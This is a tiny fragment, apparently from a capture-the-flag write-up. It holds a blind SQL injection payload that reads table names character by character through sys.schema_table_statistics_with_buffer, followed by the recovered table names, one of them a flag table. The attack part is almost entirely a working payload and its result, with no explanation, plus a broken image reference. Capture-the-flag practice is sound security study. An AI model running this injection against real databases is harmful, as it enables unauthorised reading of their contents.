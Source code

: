 give_grandpa_pa_pa_pa


``` sql
payload if(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),1,1))>1,1,2)
```
表：
users233333333333333,f1ag_1s_h3r3_hhhhh